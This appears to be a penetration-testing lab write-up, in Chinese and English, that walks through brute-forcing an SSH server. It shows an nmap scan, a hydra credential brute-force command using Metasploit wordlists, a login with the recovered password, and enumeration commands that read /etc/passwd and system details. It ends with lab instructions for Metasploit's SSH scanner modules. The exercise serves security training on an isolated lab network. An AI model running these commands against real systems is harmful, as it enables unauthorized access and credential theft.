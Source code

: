 在用户名和密码验证的情况下，我们可以对 SSH 服务器执行暴力攻击，以识别合法凭据，从而获得对目标系统的访问权限。

# Demo: Exploiting SSH
```
ifconfig

eth1: inet 192.156.211.2
```

```
nmap -sV 192.156.211.3
```

```
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/common_passwords.txt 192.156.211.3 -t 4 ssh
```

Display the groups that the sysadmin is a part of. It is not a part of sudo group, which means we don't have any elevated privileges.

Enumerate the distribution release version.

Get kernel version.

Enumerate the users on the system.

```
ssh sysadmin@192.156.211.3

yes
hailey

sysadmin@victim-1:~$ whoami
sysadmin@victim-1:~$ groups sysadmin
sysadmin@victim-1:~$ cat /etc/*issue
sysadmin@victim-1:~$ uname -r
sysadmin@victim-1:~$ cat /etc/passwd
```

# SSH登录
## 概述
在本实验中，针对目标运行以下辅助模块：
* auxiliary/scanner/ssh/ssh_version
* auxiliary/scanner/ssh/ssh_login

**指示：**
* 这个实验室是献给你的！此网络上没有其他用户 :)
* 开始实验室后，您将可以访问 Kali 实例的根终端
* 你的 Kali 有一个 IP 地址为 192.XY2 的接口。运行“ip addr”以了解 X 和 Y 的值。
* 目标服务器应位于 IP 地址 192.XY3。
* 不要攻击位于 IP 地址 192.XY1 的网关
* 使用`/usr/share/metasploit-framework/data/wordlists/common_users.txt`用户名字典
* 使用`/usr/share/metasploit-framework/data/wordlists/common_passwords.txt`密码字典
